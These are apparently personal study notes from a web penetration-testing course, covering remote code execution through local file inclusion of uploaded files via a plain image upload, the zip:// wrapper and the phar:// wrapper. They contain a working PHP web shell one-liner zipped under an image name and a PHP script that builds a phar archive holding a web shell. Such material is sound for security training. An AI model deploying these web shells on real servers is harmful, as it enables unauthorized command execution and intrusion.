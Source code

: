 In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

>[!Note]
As we can see, we can use "`/profile_images/shell.gif`" for the file path. If we do not know where the file is uploaded, then we can fuzz for an **uploads directory**, and then fuzz for our uploaded file, though this may not always work as some web apps properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the **LFI** vulnerable function, and the PHP code should get executed, as follows:
![[Pasted image 20250207213536.png]]
As we can see, we included our file and successfully executed the "`id`" command.

>[!Note]
To include to our uploaded file, we used `./profile_images/` as in this case the **LFI** vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path.
### Zip Upload
We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. 

To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named "`shell.jpg`"), as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
>[!Note]
Even though we named our zip archive as "``shell.jpg``", some upload forms may still detect our file as a zip archive through **content-type** tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the "`shell.jpg`" archive, we can include it with the `zip` wrapper as "`zip://shell.jpg`", and then refer to any files within it with `#shell.php` (URL encoded). 
Finally, we can execute commands as we always do with "`&cmd=id`", as follows:
![[Pasted image 20250207213550.png]]As we can see, this method also works in executing commands through zipped PHP scripts.
>[!Note]
We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.
### Phar Upload
Finally, we can use the "`phar://`" wrapper to achieve a similar result. To do so, we will first write the following PHP script into a "`shell.php`" file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. 
